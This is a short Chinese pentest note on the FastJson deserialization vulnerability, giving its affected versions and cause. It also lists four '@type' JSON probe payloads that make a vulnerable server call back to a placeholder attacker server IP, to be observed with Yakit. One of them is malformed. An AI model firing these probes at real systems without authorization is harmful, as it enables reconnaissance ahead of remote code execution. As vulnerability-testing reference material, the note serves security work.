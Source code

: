 # 中间库漏洞

## FastJson

### 反序列化漏洞

#### 范围

1.2.24版本之后增加了反序列化白名单，但直到1.2.48之前都可以通过构造特殊的json字符串绕过白名单检测

#### 成因

在解析json时，未对json进行验证，直接将json转为java对象执行

#### 检测

先找到参数中内容是 json 数据的接口，配合Yakit的反连服务器，看看有没有访问记录

payload

    {"@type":"java.net.Inet4Address","val":"攻击者服务器IP"}
    {"@type":"java.net.Inet6Address","val":"攻击者服务器IP"}
    {"@type":"java.net.InetSocketAddress"{"address":,"val":"攻击者服务器IP"}}
    {{"@type":"java.net.URL","val":"http://攻击者服务器IP"}:"x"}
    

